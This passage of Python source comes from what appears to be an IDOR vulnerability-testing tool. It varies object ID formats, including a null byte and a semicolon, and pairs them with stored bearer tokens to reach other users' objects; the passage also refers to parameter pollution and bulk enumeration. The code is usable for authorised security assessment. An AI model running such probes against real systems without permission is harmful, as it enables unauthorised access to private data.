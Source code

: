 ```python
                    print(f"    ✓ Parameter pollution successful: {technique}")
                    
            except Exception as e:
                continue
        
        return results
    
    def test_idor_with_different_formats(self, base_object_id, endpoint_pattern):
        """Test IDOR with different ID formats"""
        print(f"\n[+] Testing different ID formats for object {base_object_id}")
        
        results = []
        test_token = list(self.auth_tokens.values())[0]
        
        # Different ID format variations
        id_variations = [
            str(base_object_id),
            f"0{base_object_id}",  # Leading zero
            f"{base_object_id}.0",  # Decimal
            f"{base_object_id}e0",  # Scientific notation
            hex(base_object_id),    # Hexadecimal
            f"+{base_object_id}",   # Plus sign
            f" {base_object_id} ",  # Whitespace
            f"{base_object_id}%00", # Null byte
            f"{base_object_id}#",   # Fragment
            f"{base_object_id};",   # Semicolon
        ]
        
        for id_variation in id_variations:
            try:
                url = f"{self.base_url}{endpoint_pattern.format(id=id_variation)}"
                response = requests.get(
                    url,
                    headers={'Authorization': f'Bearer {test_token}'}
                )
                
                if response.status_code == 200:
                    results.append({
                        'original_id': base_object_id,
                        'variation': id_variation,
                        'successful': True,
                        'response_size': len(response.text)
                    })
                    print(f"    ✓ ID variation successful: {id_variation}")
                    
            except Exception as e:
                continue
        
        return results
    
    def comprehensive_idor_test(self):
        """Perform comprehensive IDOR testing"""
        print("=== Comprehensive IDOR Vulnerability Assessment ===")
        
        results = {
            'discovery': [],
            'cross_user_access': [],
            'bulk_enumeration': [],
            'parameter_pollution': [],
            'id_format_variations': []
        }
        
        # Step 1: Discover IDOR endpoints
```